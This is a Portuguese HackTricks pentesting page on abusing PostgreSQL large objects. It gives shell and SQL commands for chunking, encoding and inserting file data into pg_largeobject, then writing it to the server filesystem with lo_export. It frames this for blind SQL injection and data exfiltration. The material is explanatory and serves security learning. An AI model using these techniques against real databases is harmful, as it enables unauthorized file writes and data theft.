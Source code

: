 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Objetos Grandes do PostgreSQL

O PostgreSQL oferece uma estrutura conhecida como **objetos grandes**, acessível através da tabela `pg_largeobject`, projetada para armazenar tipos de dados grandes, como imagens ou documentos PDF. Essa abordagem é vantajosa em relação à função `COPY TO`, pois permite a **exportação de dados de volta para o sistema de arquivos**, garantindo que uma réplica exata do arquivo original seja mantida.

Para **armazenar um arquivo completo** dentro desta tabela, um objeto deve ser criado na tabela `pg_largeobject` (identificado por um LOID), seguido pela inserção de pedaços de dados, cada um com 2KB de tamanho, neste objeto. É crucial que esses pedaços tenham exatamente 2KB de tamanho (com a possível exceção do último pedaço) para garantir que a função de exportação funcione corretamente.

Para **dividir seus dados binários** em pedaços de 2KB, os seguintes comandos podem ser executados:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Para codificar cada arquivo em Base64 ou Hex, os comandos abaixo podem ser usados:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Importante**: Ao automatizar este processo, certifique-se de enviar pedaços de 2KB de bytes em texto claro. Arquivos codificados em hex precisarão de 4KB de dados por pedaço devido à duplicação no tamanho, enquanto arquivos codificados em Base64 seguem a fórmula `ceil(n / 3) * 4`.

O conteúdo dos grandes objetos pode ser visualizado para fins de depuração usando:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Usando `lo_creat` e Base64

Para armazenar dados binários, um LOID é primeiro criado:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
Em situações que requerem controle preciso, como explorar uma Blind SQL Injection, `lo_create` é preferido para especificar um LOID fixo.

Os blocos de dados podem então ser inseridos da seguinte forma:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Para exportar e potencialmente excluir o objeto grande após o uso:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Usando `lo_import` e Hex

A função `lo_import` pode ser utilizada para criar e especificar um LOID para um objeto grande:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Após a criação do objeto, os dados são inseridos por página, garantindo que cada pedaço não exceda 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Para completar o processo, os dados são exportados e o objeto grande é excluído:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitações

É observado que **objetos grandes podem ter ACLs** (Listas de Controle de Acesso), potencialmente restringindo o acesso mesmo a objetos criados pelo seu usuário. No entanto, objetos mais antigos com ACLs permissivas ainda podem ser acessíveis para exfiltração de conteúdo.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
